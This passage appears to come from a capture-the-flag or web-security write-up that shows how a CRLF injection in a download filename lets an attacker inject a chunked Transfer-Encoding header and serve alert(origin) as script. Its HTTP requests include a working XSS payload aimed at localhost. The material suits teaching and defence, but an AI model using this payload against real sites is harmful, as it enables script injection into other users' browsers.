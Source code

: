 In here, the first chunk will be `alert(origin)` with the length of `0xd` (13 in decimal). After that, we terminate the other message body with `0x0` length chunk.

Final response:

```http
HTTP/1.1 200 OK
Server: BaseHTTP/0.6 Python/3.13.7
Content-Type: text/html; charset=utf-8
Content-Length: 13
Content-Disposition: attachment; filename="anything"

alert(origin)
```

Therefore, we can bypass the invalid JavaScript syntax by using **`Transfer-Encoding` with `chunked` encoding**!

- Create a dummy message

```http
POST /message HTTP/1.1
Host: localhost:8000
Referer: http://localhost:8000/
Content-Type: application/json
Content-Length: 20

{"value":"anything"}
```

- Create a message that contains our XSS payload with the CRLF injection CSP gadget

```http
POST /message HTTP/1.1
Host: localhost:8000
Referer: http://localhost:8000/
Content-Type: application/json
Content-Length: 194

{"value":"<script src='/download?uuid=<dummy_message_uuid>&filename=anything\"%0d%0aTransfer-Encoding:+chunked%0d%0a%0d%0ad%0d%0aalert(origin)%0d%0a0%0d%0a%0d%0ajunk'></script>"}
```
